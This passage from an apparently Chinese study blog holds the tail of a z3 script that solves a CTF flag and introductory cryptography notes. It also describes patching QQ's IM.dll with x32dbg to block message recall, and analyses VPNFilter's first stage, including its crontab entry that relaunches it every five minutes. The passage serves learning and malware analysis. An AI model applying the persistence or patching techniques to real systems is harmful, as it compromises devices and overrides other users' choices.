]-flag[13 ]+flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]-flag[29 ]+flag[30 ]-flag[31 ]+flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]+flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]-flag[41 ]==s[2 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]-flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]-flag[35 ]+flag[36 ]+flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[3 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]+flag[3 ]-flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]+flag[17 ]-flag[18 ]+flag[19 ]-flag[20 ]+flag[21 ]-flag[22 ]-flag[23 ]-flag[24 ]+flag[25 ]-flag[26 ]-flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[4 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]+flag[0 ]-flag[9 ]-flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]+flag[31 ]+flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[5 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]-flag[20 ]-flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]+flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]+flag[37 ]-flag[38 ]-flag[39 ]+flag[40 ]-flag[41 ]==s[6 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]-flag[3 ]-flag[4 ]+flag[5 ]+flag[6 ]-flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]-flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]+flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]+flag[34 ]-flag[35 ]+flag[36 ]+flag[37 ]+flag[38 ]+flag[39 ]-flag[40 ]-flag[41 ]==s[7 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]+flag[18 ]-flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]-flag[39 ]+flag[40 ]-flag[41 ]==s[8 ])solver .add(flag[1 ]+flag[2 ]+flag[0 ]-flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]-flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]-flag[17 ]-flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]+flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[9 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]+flag[12 ]+flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]-flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[10 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]-flag[17 ]-flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]+flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[11 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]+flag[4 ]-flag[5 ]-flag[6 ]+flag[7 ]+flag[8 ]-flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]-flag[19 ]-flag[20 ]-flag[21 ]-flag[22 ]+flag[23 ]-flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]+flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]+flag[39 ]-flag[40 ]-flag[41 ]==s[12 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]-flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]-flag[7 ]+flag[8 ]-flag[9 ]+flag[10 ]-flag[11 ]+flag[12 ]+flag[13 ]+flag[14 ]+flag[15 ]-flag[16 ]-flag[17 ]-flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]-flag[37 ]-flag[38 ]-flag[39 ]+flag[40 ]-flag[41 ]==s[13 ])solver .add(flag[1 ]+flag[2 ]+flag[0 ]-flag[3 ]-flag[4 ]-flag[5 ]+flag[6 ]-flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]+flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]+flag[33 ]+flag[34 ]+flag[35 ]+flag[36 ]+flag[37 ]+flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[14 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[5 ]-flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]+flag[13 ]-flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]-flag[33 ]+flag[34 ]+flag[35 ]+flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[15 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]-flag[22 ]-flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]+flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]-flag[40 ]+flag[41 ]==s[16 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[0 ]-flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]+flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]-flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[17 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]+flag[4 ]+flag[5 ]-flag[6 ]+flag[7 ]-flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]-flag[22 ]-flag[23 ]-flag[24 ]-flag[25 ]-flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]+flag[41 ]==s[18 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[0 ]-flag[4 ]-flag[5 ]+flag[6 ]-flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]+flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[19 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]-flag[3 ]-flag[4 ]+flag[5 ]-flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]-flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]+flag[35 ]+flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]-flag[41 ]==s[20 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]+flag[41 ]==s[21 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]+flag[0 ]-flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]+flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]-flag[19 ]-flag[20 ]+flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[22 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]-flag[5 ]-flag[6 ]-flag[7 ]+flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[23 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]-flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]-flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]+flag[32 ]+flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[24 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]+flag[5 ]+flag[6 ]-flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]-flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]+flag[40 ]+flag[41 ]==s[25 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[0 ]-flag[5 ]-flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]-flag[19 ]-flag[20 ]+flag[21 ]+flag[22 ]+flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]-flag[27 ]-flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]+flag[36 ]-flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]+flag[41 ]==s[26 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]-flag[3 ]+flag[4 ]-flag[5 ]-flag[6 ]-flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]-flag[11 ]+flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]+flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[27 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]-flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]+flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]+flag[35 ]+flag[36 ]-flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]+flag[41 ]==s[28 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]-flag[3 ]-flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]+flag[9 ]-flag[10 ]-flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]-flag[19 ]+flag[20 ]+flag[21 ]+flag[22 ]+flag[23 ]-flag[24 ]+flag[25 ]+flag[26 ]-flag[27 ]+flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]+flag[36 ]-flag[37 ]+flag[38 ]+flag[39 ]-flag[40 ]+flag[41 ]==s[29 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[0 ]-flag[4 ]-flag[5 ]-flag[6 ]-flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]-flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]+flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]+flag[41 ]==s[30 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]-flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]+flag[11 ]+flag[12 ]-flag[13 ]-flag[14 ]-flag[15 ]+flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]+flag[21 ]-flag[22 ]+flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]-flag[40 ]-flag[41 ]==s[31 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]-flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]+flag[8 ]-flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]+flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]-flag[21 ]-flag[22 ]+flag[23 ]-flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]+flag[35 ]+flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]-flag[40 ]+flag[41 ]==s[32 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]+flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]-flag[7 ]-flag[8 ]+flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]+flag[19 ]-flag[20 ]+flag[21 ]+flag[22 ]+flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]+flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[33 ])solver .add(flag[1 ]+flag[0 ]-flag[2 ]+flag[3 ]-flag[4 ]-flag[5 ]-flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]-flag[16 ]+flag[17 ]-flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]+flag[23 ]-flag[24 ]-flag[25 ]+flag[26 ]+flag[27 ]+flag[28 ]+flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]+flag[38 ]+flag[39 ]-flag[40 ]-flag[41 ]==s[34 ])solver .add(flag[0 ]-flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]-flag[5 ]-flag[6 ]+flag[7 ]+flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]+flag[13 ]-flag[14 ]-flag[15 ]+flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]-flag[20 ]-flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]+flag[28 ]-flag[29 ]-flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]+flag[34 ]+flag[35 ]+flag[36 ]+flag[37 ]+flag[38 ]+flag[39 ]-flag[40 ]-flag[41 ]==s[35 ])solver .add(flag[1 ]+flag[2 ]+flag[0 ]-flag[3 ]-flag[4 ]-flag[5 ]-flag[6 ]+flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]-flag[13 ]+flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]-flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]-flag[27 ]-flag[28 ]+flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]-flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[36 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]+flag[3 ]-flag[4 ]+flag[5 ]-flag[6 ]-flag[7 ]-flag[8 ]-flag[9 ]+flag[10 ]-flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]-flag[15 ]-flag[16 ]+flag[17 ]+flag[18 ]-flag[19 ]-flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]-flag[25 ]-flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]-flag[32 ]+flag[33 ]-flag[34 ]+flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]-flag[39 ]-flag[40 ]-flag[41 ]==s[37 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[0 ]-flag[4 ]+flag[5 ]+flag[6 ]+flag[7 ]-flag[8 ]-flag[9 ]-flag[10 ]+flag[11 ]+flag[12 ]+flag[13 ]-flag[14 ]-flag[15 ]-flag[16 ]-flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]+flag[21 ]-flag[22 ]+flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]-flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]-flag[32 ]-flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]+flag[38 ]+flag[39 ]+flag[40 ]-flag[41 ]==s[38 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]-flag[4 ]+flag[5 ]-flag[6 ]-flag[7 ]-flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]+flag[14 ]-flag[15 ]-flag[16 ]-flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]+flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]+flag[33 ]+flag[34 ]-flag[35 ]-flag[36 ]+flag[37 ]+flag[38 ]+flag[39 ]-flag[40 ]+flag[41 ]==s[39 ])solver .add(flag[0 ]-flag[1 ]-flag[2 ]-flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]-flag[7 ]+flag[8 ]+flag[9 ]-flag[10 ]+flag[11 ]-flag[12 ]-flag[13 ]-flag[14 ]+flag[15 ]+flag[16 ]+flag[17 ]+flag[18 ]+flag[19 ]+flag[20 ]+flag[21 ]+flag[22 ]-flag[23 ]+flag[24 ]+flag[25 ]-flag[26 ]+flag[27 ]+flag[28 ]-flag[29 ]+flag[30 ]+flag[31 ]+flag[32 ]-flag[33 ]-flag[34 ]+flag[35 ]+flag[36 ]-flag[37 ]+flag[38 ]+flag[39 ]+flag[40 ]+flag[41 ]==s[40 ])solver .add(flag[1 ]+flag[2 ]+flag[3 ]+flag[4 ]+flag[5 ]+flag[6 ]+flag[0 ]-flag[7 ]-flag[8 ]-flag[9 ]+flag[10 ]+flag[11 ]-flag[12 ]+flag[13 ]-flag[14 ]-flag[15 ]-flag[16 ]-flag[17 ]-flag[18 ]-flag[19 ]+flag[20 ]-flag[21 ]+flag[22 ]-flag[23 ]-flag[24 ]+flag[25 ]+flag[26 ]+flag[27 ]+flag[28 ]-flag[29 ]-flag[30 ]-flag[31 ]-flag[32 ]-flag[33 ]-flag[34 ]-flag[35 ]-flag[36 ]-flag[37 ]-flag[38 ]-flag[39 ]-flag[40 ]+flag[41 ]==s[41 ])if solver.check()==sat: print solver.model()
问了下出题人顺便了解到了sage
密码学 学习一波密码学，主要还是跟着航电的师傅博客中推荐的视频来学的
代换置换密码 凯撒密码 凯撒密码是固定的移位3。。。
HILL 希尔密码在hgame钟遇到过
Vigenère cipher 维吉尼亚就是多了个密钥
置换密码 一个特殊的希尔密码
密码分析 密码算法的安全性不取决于密码算法本身的机密性，而取决于密钥的机密
流密码(序列密码) 对称密码有俩种一种是流密码还有一种就是分组密码
随机数 真随机数生成器 例如抛筛子啊什么的
伪随机数生成器(PRNG) 伪随机数生成器从一个初始种子开始通过计算来得到序列
CSPRNG 加密安全伪随机数生成器
完备安全 简单来说就是不能唯密文攻击//但可能有其他攻击方法
数据加密标准与替换算法 主要是des
混淆 混淆就是一种使密钥与密文之间的关系尽可能模糊的操作。
扩散 为了隐藏明文的统计属性而将一个明文符号的影响扩散到多个密文符号的操作
初始置换与逆初始置换 这个很简单就是对明文和密文做置换
f函数 des的f函数传进去R的32位。。。然后与子密钥or后进行取表
QQ消息防撤回 其实很简答

上个成果图
目前没出现任何异常
其实原理就是
用户发起撤回请求->服务器接收请求并删除服务器的消息记录，给用户下发命令撤回->用户接收到命令，删除本地消息
但是问题就是本地消息是我们可控的
这样就好办了
直接找到撤回的函数nop掉就完事了
库的话是IM.dll
x32dbg附加上去暴力搜索一通就行
网上也有许多相关的文章
这边不多说了
vpnfilter vpnfilter经了解是一款很牛逼的恶意软件。。。
学习目的 驻留技术
大致介绍 vpnfilter大致攻击流程图如下

主要是由三个阶段组成
第一阶段就是负责启动和驻留过程并下载第二阶段且运行
第二阶段就是远程命令得接受与执行
第三阶段主要是为了扩展
stage1

首先是fork进程后来一波改权限
我这边是umask(23)和其他人分析报告的不一样。。。
//别人是27
不知道为啥

然后是一波check
check自身文件是否存在，不存在的话就跳转
重新写入磁盘
然后是check_crontab
这主要是为了检查是否已经设置过自启动
如果没有的话就会设置自启动，来达到驻留

下面这个是设置自启动
可以看到是fprintf(result, “*/5 * * * * %s\n”, (int)&byte_808EF80);
每五分钟启动一次
